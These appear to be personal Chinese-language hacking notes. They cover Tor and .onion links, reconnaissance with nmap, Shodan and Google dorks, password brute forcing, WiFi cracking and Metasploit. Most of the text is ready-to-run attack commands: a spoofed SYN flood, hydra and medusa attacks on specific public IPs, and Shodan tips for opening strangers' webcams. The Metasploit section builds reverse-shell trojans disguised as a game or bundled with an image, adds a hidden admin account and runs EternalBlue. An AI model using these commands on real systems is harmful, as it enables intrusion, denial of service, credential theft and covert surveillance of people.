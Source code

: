 * 成果图：
攻击米文博22号端口，协议ssh：

[[./figure_network/mmexport1584403670237.jpg  ]]

[[./figure_network/mmexport1584403673341.jpg]]

利用局域网中不同的ip地址对米文博服务器发起DOS攻击，TCP二三次握手攻击：

[[./figure_network/mmexport1584403676361.jpg]]
* tor
tor是一个匿名网络了路由器，起初由美国海军资助，\\
xingxingstar@torbox3uiot6wchz.onion \\
[[./figure_network/Tor-onion-network.png]]

https://www.exploit-db.com/google-hacking-database

https://www.torproject.org/download

http://thehiddenwiki.org

http://uzzz.org/201808/29/5f76d7216ee1be2fefb2881d5ef55578.html

http://qkj4drtgvpm7eecl.onion

http://newmap.norsecorp.com 

http://22u75kqy1666joi2.onion

http://reloadedudjtjvxr.onion/road.php 

http://prnstmrpfkgkaw5v.onion 

http://iuhcjx6fpeafstuu.onion 

http://6soqvgf7mrjc7w3j.onion/bbs/index.php

* information gathering
** 被动收集
*** 被动信息收集
信息收集的方式可以分为两种:被动和主动\\
被动信息收集的方式是指:利用第三方服务对目标进行访问了解.e.g:google搜索\\
主动收集:通过直接访问,扫描网站,这种将流量流经网站的行为.比如:nmap扫描端口.\\
被动信息收集的目的:通过公开渠道,去获得目标主机的信息,从而不与目标系统直接交互,避免留下痕迹.\\
信息收集的内容:1.IP地址段2.域名信息3.邮件地址4.文档图片数据5.公司地址6.公司组织架构7.联系电话/传真号码8.人员姓名/职位9.目标系统使用的技术架构10.公开的商业信息\\
信息用途:1.信息描述目标2.发现目标3.社会工程学攻击4.物理缺口

*** 信息收集-DNS
*** 域名解析原理
1.DNS服务器概述:\\
运行DNS服务器程序的计算机,存储DNS数据库信息.DNS服务器分为根域DNS服务器,顶级域名DNS服务器.根域DNS服务器有13个,都存储了全部顶级域名服务器所在地址;顶级域名服务器存储每位客户注册的主机地址,这里对应到163.com这个级别.https://wanwang.aliyun.com\\
ctrl+ +放大字体\\
ctrl+ l 清屏\\
将域名解析为ip地址:\\
1.ping \\
2.nslookup url(cat /etc/resolv.conf) \\
3.dig @114.114.114.114 url any(指定从114.114.114.114开始解析)\\
dig +noall +answer @8.8.8.8 any

查询ip对应的域名:\\
1.dig -x ip 

查询dns版本:\\
dig txt chaos VERSION.BIND @ip\\
目的:可以通过版本信息来查找相关版本漏洞的利用方式

查询网站的注册信息以及备案信息\\
https://whois.aliyun.com  \\
whois url \\
*** 子域名信息收集
主域:baidu.com 主域下可以有很多二级三级域名edu.baidu.com,abc.baidu.com
1.子域名挖掘机:maltego
2.google搜索: site:qq.com 
3.第三方网站查询:http://tool.chinaz.com/subdomain,http://dnsdumpster.com 
注册maltego CE
https://www.paterva.com/web7/community/community.php
*** shodan信息收集
https://www.shodan.io
shodan搜索技巧:
1.在搜索框输入:webcam(打开别人的摄像头)or city:beijing webcam
按滑轮会再次打开一个标签页
没有验证码可以暴力破解

2.net:ip 搜索该网站的所有漏洞(Vulnerabilities)

3.port:80(列出开80端口的服务器)port:9200(elk日志)

4.port:3000(查找登录窗口)

5.city:beijing(查看北京联网的服务器),可以多个命令组合
*** google搜索引擎的使用
inurl:qq.txt(限定在url中搜索)
inurt:admin_login.asp(含有登录界面)
intitle:index.of .bash_history(index.of出现该字段表示,网站目录对我们是开放的,我们可以查看到网站目录下所有文件信息,.bash_history表示要查看的文件名称,该文件记录了历史命令)
查找mysql配置文件
cache:域名(cache返回结果是被搜索引擎收录时的界面,比如一些页面被删了,我们通过cache仍可访问)
kali filetype:torrent(kali关键字,filetype文件的后缀,语言选为英语,关闭安全搜索搜到的东西会更多)
apache site:bbs.xuegod.cn (apache是关键字,size可以查询网站的收录情况,bbs.xuegod.cn目标网站.当站内搜索不好用时可用此方法代替站内搜索)
组合技巧:
intext:user.sql intitle:index.of (查询包含user.sql用户数据库信息的页面,)
** 主动收集
*** 主动收集的原理
扫描发送不同的探测,根据返回结果判断目标状态.

发现目标主机的过程:
1.识别存活主机,发现潜在的被攻击目标
2.输出一个IP地址列表,比如IP地址段, IP地址范围
3.使用二三四层进行探测发现
基于OSI模型进行扫描的优缺点:
1.二层扫描速度快,可靠.缺点不可路由
2.三层可路由速度快,缺点速度比二层慢,经常被边界防火墙过滤,使用IP,icmp协议
3.四层:可路由切结果可靠,不太可能被防火墙过滤,可以发现所有端口都被过滤的主机.缺点,基于状态过滤的防火墙可能过滤扫描,全端口扫描速度慢
*** 使用ping探测服务器存活-用Hping3对服务器产生DOS攻击
ping命令是我们常用的判断主机之间是否畅通,ping ip -c 1(发一个ping包就停止)
Traceroute命令也可以对路由进行跟踪.
arping命令得到ip对应的mac地址(如果出现两个mac地址对应一个ip地址,就是arp欺骗)
arping -c 1 192.168.1.1 | grep 'bytes from' | cut -d '' -f 5 | cut -d '(' -f 2 |cut -d ')' -f 1 
arping对整个网络进行扫描脚本:
#!/bin/bash
if["$#" -ne 1];then  #判断用户是否输入了至少一个参数,如果没有输入参数,提示输出信息并退出
  echo "Usage - ./arping.sh [interface]"
  echo "Excample - ./arping.sh eth0"
  echo "Example will perform an ARP scan of the local subnet to which eth0 is assigned"
  exit
fi
  interface=$1 #将用户输入的参数传递给interface变量
prefix=$(ifconfig$interface|grep "inet" | cut -d '-t' -f 2 | cut -d '.' -f 1-3)#获取本机IP地址网段192.168.1 
#对整个网段进行arping
for addr in $(seq 1 254);do 
  arping -c 1 $prefix.$addr |grep "bytes from" | cut -d "" -f 5 |cut -d "("-f 2 |cut -d")" -f 1 
done
chmod -x arping.sh 
./arping.sh eth0
可以探测出来具有网有那些机器

*Netdiscover* 是一个主动/被动的ARP侦查工具.使用Netdisconver工具可以在网络上扫描IP地址,检查在线主机或搜索为它们发送的ARP请求.
主动模式:主动的探测发现网络内的主机,但是这种方式往往或 *引起网络管理员* 的注意
netdiscover -i eth0 -r 192.168.1.0/24 (-i device:your network device ;-r range:scan a given range instead of auto scan.192.168.6.0/24,/16,/8)

被动模式方法更加隐蔽,但是速度比较慢,网卡被设置为 *混杂模式来帧听网络内的arp数据包* 进行被动式探测,这种方式就需要网络内设备发送arp包才能探测到,网络中服务器没有发ARP广播包,所以探测不到
netdiscover -p (passive)

Hping3是一个在命令行下使用的TCP/IP数据包组装/分析工具,通常web服务会用来做压力测试,也可以进行DOS攻击实验.同样Hping只能每次扫描一个目标.
hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source url(-c 1000次, -d 120一个包大小,-S发包类型SYN,-w TCP的滑动窗口,-p 80端口,洪水攻击,不同的源)
关闭:pkill hping 

*** 基于Nmap的扫描方式
基于半连接的扫描不会留下记录,速度快
nmap -sS ip(扫描该ip开放的全部端口)
nmap -sS ip -p 80,81,21,25,110,443 (-sS表示使用SYN进行半连接扫描)
nmap -sS ip -p 1-65535 (指定扫描端口的范围)
nmap -sS ip/24 -p 1-65535(扫描一个网段)<==>nmap -sS ip/24 -p -
nmap -sn ip/24 or nmap -sn 192.168.1.1-254(表示只ping,不进行端口扫描)
nmap ip -p 80 (查看目标主机的80端口是否开放,全连接扫描)
nmap ip --top-ports 10 最常用的10个端口 --open 只显示开放的端口 --reason 显示判断端口开放的原因 -e eth0指定发包网卡 -n 不需要反向查询(反向查询指给定一个域名,解析为ip,在解析该ip存在那些域名) --traceroute路由跟踪

nmap iL file.txt (文本文件中存放的是一系列不连续的ip)
nmap 192.168.0.0/16 --exlude 192.168.23.0/24 排除某段IP
nmap 192.168.0.0/16 --exludefile ex.txt 


主机发现(先是主机发现然后是端口扫描)
- 嗅探帧听被动发现(NSE)
- -sn:TCP ping扫描(TCP80/443 ACK/SYN扫描,sYN+ACK/RST+ACK)
- -Pn:跳过主机发现(--traceroute,negative)
- -PS/PA/PU/PY[portlist]:SYN/ACK/UDP/SCTP
- -PE/PP/PM/PO:ICMP,Timestamp,Network IP协议号
- --dns-servers 8.8.8.8,4,4,4,4

nmap -O ip 扫描操作系统
--randomize-hosts随机扫描
--scan-delay延时扫描
/usr/share/nmap/scrip 
--script

nc扫描端口
nc的作用:
1.实现任意TCP/UDP端口的倾听,nc可以作为server以TCP或UDP方式倾听指定端口
2.端口扫描,nc可以作为客户端发起TCP或UDP连接
3.机器之间传输文件
4.机器之间网络测速
nc参数:-nv表示我们扫描的目标是个IP地址不做域名解析
-w 表示超时时间
-z 表示进行端口扫描
nc -nv -w 1 -z 192.168.1.1 1-100
*** 全连接扫描
3次握手
*** 使用Scapy定制数据包进行高级扫描
scapy 是一个可以让用户发送,帧听和解析并伪装网络报文的python程序.这些功能可以用于制作侦测,扫描和攻击网路的工具.
使用:ARP.display()查看ARP函数的使用方法
  hwtype= 0x1
  ptype= 0x800
  hwlen= 6
  plen= 4
  op= who-has
  hwsrc= 18:1d:ea:4d:b7:82
  psrc= 192.168.1.77
  hwdst= 00:00:00:00:00:00
  pdst= 0.0.0.0

1. 定制ARP包
例:定义向192.168.1.1发送arp请求的数据包,询问192.168.1.1的MAC地址
sr1函数的作用:发送数据包和接收数据包的功能
sr1(ARP(pdst="目标ip"))

2. 定制ping包
IP().display()
ICMP.display()
使用以上两个函数可以生成ping包进行探测.IP()生成源IP和目标IP,ICMP()生成ping包的类型.思路:1.修改IP包头的dst,也就是我们的目的地址,2.然后拼接上ICMP的数据包类型,3.最后使用sr1函数发送即可.
sr1(IP(dst="192.168.1.1")/ICMP(),timeout=1)
查看数据包格式和用法()
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags= 
  frag= 0
  ttl= 64
  proto= hopopt
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\

  type= echo-request
  code= 0
  chksum= None
  id= 0x0
  seq= 0x0
3. scapy定制TCP协议SYN请求
TCP().display()
sr1(IP(dst="192.168.1.1")/TCP(flags="S",dport=80),timeout=1),flags="S"表示SYN数据包,dport=80 表示目标端口80,得到一个flags=SA的数据包.SA标志即SYN+ACK表示端口开放.

###[ TCP ]### 
  sport= ftp_data
  dport= http
  seq= 0
  ack= 0
  dataofs= None
  reserved= 0
  flags= S
  window= 8192
  chksum= None
  urgptr= 0
  options= {}

4. scap定制UDP协议
UDP协议是不可靠的,没有收到回应包表示端口开放,收到回应包表示端口不开放,或者是非UDP端口.
UDP().display()
sr1(IP(dst="ip")/UDP(dport=53),timeout=2)

###[ UDP ]### 
  sport= domain
  dport= domain
  len= None
  chksum= None
*** 开启超级扫描之僵尸扫描
僵尸扫描拥有极高的隐蔽特性,但是实施条件苛刻.
1.目标网络可伪造源地址进行访问
2.选择僵尸机,僵尸机需要在互联网上是一个闲置的操作系统,需要系统使用递增的IPID,比如XP系统或Android手机.
nmap和ping都会直接和目标机接触.

第一步:(黑客的收获是:知道了僵尸主机的IPID)
(1) 攻击者向僵尸机发送SYN/ACK确认包
(2) 僵尸主机返回RST(数据包关闭连接,RST数据包中包含了IPID信息.)
rz1=sr1(IP(dst='192.168.1.54')/TCP(dport=445,flags="SA"))


第二步:(如果目标主机开放,让僵尸主机的IPID+1)
(1) 攻击者修改IP包头的SRC字段为僵尸主机的IP,伪装僵尸主机给目标主机发SYN
(2) 目标主机收到请求,如果端口开放就会给僵尸主机一个SYN/ACK数据包
(3) 僵尸主机收到目标主机发来的SYN/ACK确认包,因为僵尸主机没有给目标主机发SYN请求,所以僵尸主机给目标主机返回了一个RST数据包.这个数据包表示关闭连接.此僵尸主机发送了一个RST数据包,所以IPID值+1.此时IPID值为X+1.
rt=src1(IP(src='192.168.1.54',dst='182.168.1.63')/TCP(drop=22),timeout=1)

第三步:(重新给僵尸主机发SYN/ACK数据包,发现IPID若是为X+2,则目标主机上某端口开放)
rz2=sr1(IP(dst='192.168.1.54')/TCP(dport=445,flags="SA"))


nmap僵尸扫描:
nmap 192.168.1.0/24 -p1-1024 --script=ipidseq.nse >a.txt,--script判断主机是否可以当做僵尸机 >a.txt输出到a.txt 
netdiscover显示局域网中网络设备
** parsero
访问rebots.txt(与搜索引擎爬虫的约定)
www.baidu.com/rebots.txt 
parsero -u url
-o:只显示状态200的结果
-sb：bing搜索rebots.txt文件中的url
** irpas-ass 
Internet router Protocol attack suite--autonomous system scanner(根据路由协议脆弱性开发.)
互联网数字资源:ip地址,ASN


1. 主动模式
主动发路由协议包
ass -i eth0 -A
2. 被动模式 
帧听路由协议的广播或者组播包
优点是隐蔽
ass -i eth0
-S 指定源地址
-D 指定目标地址
-P 指定协议

3.互联网ddos使用相邻AS地址攻击目标
路径追踪 Public AS 
lft -A ip 

IANA委托Internet数字资源给5大RIR
Internet Assigned Numbers Authority(IANA)
regional Internet Registry(RIR)
负责管理,分配,注册互联网数字资源组织
5个RIR加入了Number Resource Organization(NRO)
彼此协调配合的全球非法人实体机构(技术项目,联合协调)
RIR再分配给下级用户(ISP,企业,教育机构)

一个AS具有统一的路由策略(同一个管理机构)
AS内部(内部路由协议)
  - 使用ip路由,路由器之间彼此交换路由信息
  - IGP(内部网关协议):RIP,OSPF,EIGRP,IS-IS,IGRP
AS间通信(外部路由协议)
  - 使用IP路由,内部IP路由外部不可见
  - EGP:BGP(V4),IDRP(未来)
  - 信息传递不是技术问题,更多的是商业和政治问题.

Tier 1 ISP通常peer彼此不收费(ISP之间)
Tier 2 付费购买连接(大部分上网用户)
Internet是大量大的Tier 1 ISP peer的互联结果
* wireshark
** wireshark简介和抓包原理及过程
wireshark使用winpcap作为接口,直接与网卡进行数据交换.
1. 确定wireshark的位置.如果没有一个正确的位置,启动wireshark后会花费很长时间捕获一些与自己无关的数据.
2. 选择捕获接口.一般都是选择到Internet网络的接口,这样才可以捕获到与网络有关的数据,否则,捕获到的其他数据对自己也没有任何帮助.
3. 捕获过滤器.通过设置捕获过滤器,可以避免产生过大的捕获数据.这样用户在分析数据时也不会受其他数据干扰.
4. 使用显示过滤器.通常使用捕获过滤器过滤后的数据,往往还是很复杂.为了使用过滤数据的数据包再更细致,此时使用显示过滤器进行过滤.
5. 使用着色规则.通常使用显示过滤器过滤后的数据,都是有用的数据包.如果想更加突出的显示某个会话,可以使用着色规则高亮显示.
6. 构建图表,如果用户想要更明显的看出一个网路中数据的变化情况,使用图表的形式可以很方便的展现数据的分布情况.
7. 重组数据.当传输较大的图片或文件时,需要将信息分布在多个数据包中.这时就需要使用重组数据的方法来抓区完整的数据,wireshark的重组功能可以重组一个会话中不同数据包的信息,或者重组一个完整的图片或文件.
** 实战:wireshark抓包及快速定位数据包包技巧
常见协议包:
ARP:通过网络地址定位MAC地址,数据链路层网络传输协议. 
ICMP:
TCP 
UDP 

DNS 
HTTP 
FTP 
混杂模式:混杂模式就是接收所有经过网卡的数据包,包括不是发给本机的包,即验证MAC地址.普通模式下网卡只接收发给本机的包,传递给上层程序,其它的包一律丢弃.
filter:ip.src_host==192.168.1.1 or ip.dst_host
** 使用wireshark对常用协议抓包并分析原理
** wireshark抓包解决服务器被黑上不了网
安装mtr可以分析路由节点:用法:mtr ip
* miranda
主动/被动发现,查询,管理UPnP设备
基于Python开发
独立的命令行界面
- 命令行自动补齐,历史命令
- 定制SSDP头
- 定制网卡,IP,端口

help查看使用说明
seti show   查看默认的组播地址和端口,network Interface,确定要使用的网卡
seti iface eth0 定制网卡为eth0
seti socket 233.255.255.250:1900,(修改组播地址和端口)


被动:pcap 
pcap
不断的向路由器发送UPnP组播数据包(SSDP通告自己存在)

主动:msearch
msearch主动向网络中发送一个组播数据包(SSDP)

路由器返回的包中的XML信息,与主动发包的XML信息相同

host list (发现的设备都会一一列出)
host get 0 
host summary 0 
host info 0 deviceList(查看0设备支持的设备类型)
host info 0 deviceList WANConnectionDevice services 
host info 0 deviceList WANConnectionDevice services WANIPCConnection actions

host send 0 WANConnectiondevice WANipcconnection AddPortMapping
添加端口映射描述
设定时间参数
客户机的ip地址
开启 
映射到外网的端口(通过该端口访问该硬件)
允许的外网访问的地址有哪些(不输代表全部外网地址)
TCP 
内网的端口80
127.0.0.1/80 

查询外网ip地址:
host sent 0 WANConnectiondevice WANIPcconnection GETExternalIPAddress
外网地址/9898

host sent 0 WANconnectiondevice WANIPCconnection GetSpecificPortMappingEntry


攻击不限于内网,XSS+SOAP Payload远程漏洞利用

针对UPnP协议的扫描和攻击工具
Universal Plug and Play(UPnP)是一组网络协议
- 适用于家庭网络(无企业级产品)
- 便于设备间无缝发现和连接,建立基本的家庭网络服务(热插拔)
文件共享,娱乐,通信
IGD,打印机,智能电话,网络摄像头,电视盒子,洗衣机,冰箱,烤箱
SSDP:Simple Service Discovery Protocol (设备之间彼此发现,文件共享通信)
GENA:Generic Event Notification Architecture(通告本网络存在,以便其他的设备彼此发现)
SOAP:Simple Object Access Protocol (发送合法指令的数据包,设备就会更改修改配置的效果)
XML:Extensible Markup Language

特点:
基于IP的通信协议
无任何身份验证机制
大部分路由器支持UPnP且默认启动
大量设备可利用UPnP修改配置
爆破路由器密码不是好主意,UPnP可以修改DNS配置,修改密码,端口转发,动态DNS,重启DNS,重启设备,窃取PPPoE账号,查看或修改无线配置

UPnP工作过程
1. 获取地址(默认基于IP协议)
2. Discovery 
REQUEST:M-SEARCH(239.255.255.250/UDP 1900)组播地址,端口1900
RESPONSE:单播回包,包含XML URL(Location头)
3. NOTIFY
通告自己的存在,239.255.255.250/UDP 1900
包含xml URL(Location头)
4. http over UDP 

5. Description
读取XML文件内容
Device type
service
Action
Variable

6. Control
Device+service+action+Variable
以上通信通过SOAP请求实现

* attack
** acccheck
密码破解工具
SMB协议分析工具(server message block)，又称网络文件共享系统，一种应用层网络传输协议，由微软开发，主要功能是使网络上的机器能够共享计算机文件，打印机，串行端口。
- TCP445端口
- MS08-067
- WannaCry

尝试连接：
IPC&
ADMIN&
windows打开显示共享文件：命令行输入-->"et share"
设置账号密码：net user administrator 123456


参数：
t/T:traget -t target_IP -T target_IP_file.txt 
u/U:user
p/P :passwd
-v:显示破解信息

** crunch hydra
查看：man crunch
生成字典：crunch 1 4 charset.lst lalpha -o mypasswd.txt(生成length1-4的字典输出到mypasswd.txt)

破解：hydra -l root -w 10 -P mypasswd.txt -t 14 -v ip ssh(-l指用户名(如果不知道用户名，可以-L user.txt指定用户名字典)，-w指定超时，-v指定显示破解过程信息，ip，以及破解协议,-t 线程数)

hydra -l ubuntu -w 10 -P -t 14 -v ip ssh -o text.ok
或者hydra -l ubuntu -w 10 -P -t 14 -v rdp://ip -o text.ok

-M(添加多个主机) ftp://49.233.64.251:22  ip 域名 ftp://[127.0.0.1/24]/ 
-e ns 空密码试探

在线破解：直接破解，离线破解：本地破解
** medusa
Medusa是支持AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NCP (NetWare),
NNTP, PcAnywhere, POP3, PostgreSQL, rexec, rlogin, rsh, SMB, SMTP
(AUTH/VRFY), SNMP, SSHv2, SVN, Telnet, VmAuthd, VNC的密码爆破工具。
Medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]

medusa -M http -h 49.233.64.251 -u CHen -p 123 -t 14 -O mwb.txt -f 

-h [TEXT]      目标IP
-H [FILE]      目标主机文件
-u [TEXT]      用户名
-U [FILE]      用户名文件
-p [TEXT]      密码
-P [FILE]      密码文件
-C [FILE]      组合条目文件
-O [FILE]      文件日志信息(指定输出文件)
-e [n/s/ns]    N意为空密码，S意为密码与用户名相同
-M [TEXT]      模块执行名称，例如，-M ssh 攻击ssh模块 -h是目标IP
-m [TEXT]      传递参数到模块
-d             显示所有的模块名称
-n [NUM]       使用非默认端口
-s             启用SSL
-r [NUM]       重试间隔时间，默认为3秒
-t [NUM]       设定线程数量
-L             并行化，每个用户使用一个线程
-f             在任何主机上找到第一个账号/密码后，停止破解
-q             显示模块的使用信息
-v [NUM]       详细级别（0-6）
-w [NUM]       错误调试级别（0-10）
-V             显示版本
-Z [TEXT]      继续扫描上一次

** brutespray
安装apt update&&apt install brutespray
-f file 
-o containing successgul attempts
-s specify service to attack
-t threads
-T hosts
-U userlist
-P passlist
-c 成功之后继续爆破
-i 交互模式

nmap  -v ip/24 -oX nmap.xml(-v显示详细信息，ip/24一个网段的信息，-oX输出为xml文件)
namp -A -p22 -v ip/24 -ox 22.xml(-A 所有参数，-p22 22号端口，包括操作系统的信息) 
nmap --help | grep ‘\-s’
nmap -sP ip/22 -oX nmap.xml(-sP ping的方式)
nmap -sV -O ip/22 -oX nmap.xml(-O操作系统信息)
brutespray -f 22.xml -u ubuntu -P pass.txt -t 20 -T 5(-T 5 表示该网段中的5个主机)
/root/brutespray-output/ssh-sucess.txt (在该文件中查看成功爆破文件)
** ncrack
ncrack [Options] {target and service specification}

ncrack [选项] {目标和服务规格}

ncrack --user frp316 --pass 1234 frp://ip

-U <文件名>：用户名文件

-P <文件名>：密码文件

--user <username_list>：逗号分隔的用户名单
ncrack  --user  用户名  -P  /root/桌面/pass.txt  ftp://000.000.000.000
--pass <password_list>：逗号分隔的密码列表

--passwords-first：迭代每个用户名的密码列表。默认是相反的。

--pairwise：成对选择用户名和密码。

FTP，SSH，Telnet，HTTP（S），POP3（S），SMB，RDP，VNC，SIP，Redis，PostgreSQL，MySQL
** john
破解加密文件
zip --password 123456 pojie.zip 1.txt (首先生成加密文件)
zip2john pojie.zip 
zip2john pojie.zip > hash.txt 
john pojie.zip hash.txt 

更多信息：http://tools.kali.org/password-attacks/john
https://www.openwall.com/john

http://hxtop1.tk

查看系统默认字典：cat /usr/share/john/password.lst |more 
--wordlist参数调用字典文件

查看linux用户的hash值：cat /etc/shadow
将hash值创建一个文件
jonh ./hash

--show参数查看结果
** 破解wifi密码
iwconfig：查看网卡是否开启
airmon-ng check ：开启监听模式
airmon-ng start wlan0 
选择攻击对象：
airodump-ng wlan0mon
记录对象的MAC地址封包
airodump-ng --bssid mac地址 --channel 8 --write /root/sample wlan0mon(会生成sample.cap)
在创建一个终端窗口aireplay-ng(注入数据包) -0表示取消认证数据包 5表示攻击次数，0表示无限次攻击
aireplay-ng -0 5 -a MAC地址 wlan0mon 
当找打目标时左上角会出现：WPA handshake
aircrack-ng /root/sample.cap -w /root/Documents/kali/dict.txt 

wifiphisher
** 密码生成
*** cewl
Cewl是一款采用Ruby开发的应用程序，你可以给它的爬虫指定URL地址和爬取深度，还可以添额外的外部链接，接下来Cewl会给你返回一个字典文件，你可以把字典用到类似John the Ripper这样的密码破解工具中。除此之外，Cewl还提供了命令行工具。

输入下列命令之后，爬虫会根据指定的URL和深度进行爬取，然后打印出可用于密码破解的字典
cewl http://www.ignitetechnologies.in/

为了方便大家记录，或者为将来的研究提供参考，Cewl可以将打印出的字典存储为文件。这里可以使用-w参数来将密码字典存储为text文件：
cewl http://www.ignitetechnologies.in/ -w dict.txt

如果你想生成指定长度的密码字典，你可以使用-m选项来设置不低于9位的密码：
cewl http://www.ignitetechnologies.in/ -m 9

如果你想要计算目标网站中某个词的重复出现次数，你可以使用-c选项来开启参数计算功能：
cewl http://www.ignitetechnologies.in/ -c

cewl http://www.ignitetechnologies.in/ -d 3
如果你想增加爬虫的爬取深度以生成更大的字典文件，你可以使用-d选项来指定爬取深度，默认的爬取深度为2：

你可以使用–debug选项来开启调试模式，这样就可以查看网站爬取过程中出现的错误和元数据了：
cewl http://www.ignitetechnologies.in/ --debug

为了扩展网站爬取结果，并获取更加完整的数据报告，你可以使用-v选项来进入verbose模式。该模式下，Cewl会导出目标网站的详细数据：
cewl http://www.ignitetechnologies.in/ -v

如果你想生成包含数字和字符的字典文件，你可以在命令中使用–with-numbers选项：
cewl http://testphp.vulnweb.com/ --with-numbers

如果目标网站需要进行页面登录认证的话，我们就要使用下列参数来绕过页面认证的限制：
–auth_type:                      Digest or basic.
–auth_user:                     Authentication username.
–auth_pass:                     Authentication password.
cewl http://192.168.1.105/dvwa/login.php --auth_type Digest --auth_user admin--auth_pass password -v
或者cewl http://192.168.1.105/dvwa/login.php --auth_type basic --auth_user admin--auth_pass password -v
*** crunch
生成一个字典文件，用自己指定的字符（默认为26个小写字母为元素的所有组合）
   crunch 1 3 123

若字典中需要空格，;等用双引号来表示
   crunch 3 3 "ab "

生成几个元素的组合（可以用于社工中收集的信息）
    crunch 4 4 -p zhangsan 2018 0101 ..

生成指定的字符串（比如生成编号，手机号等）
    crunch 10 10 -t 201800%%%%

多种组合 生成3个元素的组合，前三位为定义的字符串
    crunch 3 3 -t d@% -p aaa bbb 

通过-l参数来使@,%^等特殊字符输出
    crunch 7 7 -t p@ss,%^ -l a@aaaaa

-o参数也可使用>>来简化
    crunch 4 4 -d 2@ -t @@@% >> test.txt

调用密匙库：
cat /usr/share/crunch/charset.lst
     numeric     表示0123456789
     Lalpha      表示26位小写字母
     Ualpha      表示26位大写字母

(其中%代表所有的数字,@代表所有的小写字母,逗号代表所有大写字母)
实例：调用密码库 charset.lst中的 hex-upper项目字符，生成4位密码，其中格式为@ + hex-upper +% +%
runch 4 4 -f charset.lst hex-upper -t @@%% -l @xdd
* web渗透
# 123.56.218.102 

** sql 注入
*** get 注入：
sqlmap -u "url"                        ==>检测
sqlmap -u url --dbs                  ==>数据库
sqlmap -u url --table -D 数据库名    ==>表
sqlmap -u url --columns -T 表名 -D 库名  ==>字段
sqlmap -u url --dump -T 表名 -C 字段 ==>字段内容
*** post 注入：
sqlmap -u url --data "sid=12"--dbs 
sqlmap -u "url" --data "sid=12" --password
* meteploit
启动：
sudo msfdb init && msfconsole
更新：
msfupdate

端口扫描：nmap -v -sV url

搜索框架相关的模块：search portscan
进入模块：use auxiliary/sanner/portscan/syn
展示选项：show options
设置网卡设置扫描的端口：set INTERFACE eth0 && set PORTS 22 && set RHOSTS 49.233.64.251 (more hosts 49.233.64.0/24) && set THREADS 100
run 

获取系统信息：
use auxiliary/scanner/smb/smb_version  

服务识别：
use auxiliary/scanner/ssh/ssh_version

密码嗅探：
use/auxiliary/sniffer/psnuffle

SNMP 扫描
use auxiliary/scanner/snmp/snmp_login
use auxiliary/scanner/snmp/snmp_enum

smb登录验证
use auxiliary/scanner/smb/smb_login

vnc身份识别
use auxiliary/scanner/vnc/vnc_none_auth

生成木马：
毒液木马：
msfvenom -p windows/meterpreter/resverse_tcp LHOST=ip LPORT=port  -f exe>game.exe(LHOST是本机的ip地址，LPORT是随机一个port,若是使用内网穿透的方法，ip设置为公网主机的ip，端口设置为公网主机开的tcp端口)
将/game.exe 放到/html的根目录下

进入 msfconsole

use exploit/multi/handler

exploit(开始捕获)
set payload windows/meterpreter/reverse_tcp
set LPORT 刚才随机的端口(set LHOST 127.0.0.1)

登录另一个网站：ip/game.exe 下载文件

然后目标已经生效：
sysinfo(查看目标主机的系统信息)
screenshot(查看入侵电脑的界面)默认在/root文件夹中
run getgui -e(开启3389)

隐藏game.exe
ps 查看进程
migrate 2382(game.exe的进程号)

创建用户:
shell
net user admin Passw0rd /add (创建用户)
net LOCALGROUP administrator admin /add (添加特权)


在kali中：
rdesktop -f -a 16 192.169.1.131:3389 
rdesktop -u xxx -p xxx ip/port

实时监控主机：run vnc 

执行计算器： execute -f calc.exe

捆绑：
选中图片和文件添加到压缩文件：创建自解压文件->高级->自解压选项->设置->提取后执行‘back.exe,linuxjpg’


android device 
msfvdenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=port > R /var/www/html.apk 

use exploit/multi/handler 
set payload android/meterpreter/reverse_tcp
show options
set LHOST ip 
set LPORT port 
exploit

background
sessions
sessions -i 1 
help 
sysinfo

攻击445端口：
设置网卡设置扫描的端口：
use auxiliary/smb/smb_ms17_010 
use auxiliary/sacnner/smb/smb_ms17_010 
set RHOST ip (扫描靶机是否开启端口，)

use exploit/windows/smb/ms17_010_eternalblue 
set rhosts 设置攻击目标ip
exploit 

pdf漏洞：
search cooltype_sing
123.56.218.102
* useage
medusa 
john
aircrack
nmap
hping3 
proxychains
msf 
* 下周计划
1. 分布式爬虫
